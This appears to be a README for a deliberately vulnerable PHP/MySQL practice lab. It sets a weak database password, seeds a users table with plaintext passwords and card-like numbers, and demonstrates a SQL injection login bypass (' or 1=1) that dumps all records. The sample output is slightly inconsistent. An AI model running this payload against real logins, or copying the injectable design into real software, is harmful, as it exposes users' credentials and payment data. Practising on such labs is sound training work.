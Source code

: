 # simplefiringrange

for Ubuntu 16

apt install apache2 mysql-server php php-mysqli php-gd libapache2-mod-php git

During this fun process, mysql should pop up a big purple screen asking for root password do your thang make that password hello123 do it!

apt-get install phpmyadmin php-mbstring php-gettext

vi config.inc.php and adjust the password

systemctl restart apache2

<site>/phpmyadmin
  
# got gui? 

click and make a database named brett

click and make a table named users with this structure:

username: varchar 24

password: varchar 24

email: varchar 24

creditcard: varchar 24


then click insert and put some users in. don't forget to click go!

you get stuff like this going on:

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('miyuki', 'hello', 'm@m.com', '3533497685860304');

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('admin', 'password', 'admin@app.com', '4024007183948511');

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('brett', 'Hell123!', 'brett@app.com', '349256618723322');



now you should be able to browser and get stuff going

try this: enter ' or 1=1;## for the password

you want to get to this point:

sql: SELECT * FROM users WHERE username = 'brett' and password = '' or 1=1;-- '

Select returned 2 rows.

Email: admin@app.com,CreditCard: 4024007183948511,Password: password

Email: brett@app.com,CreditCard: 349256618723322,Password: Hello123! 

Email:m@m.com,CreditCard: 3533497685860304,Password: hello 







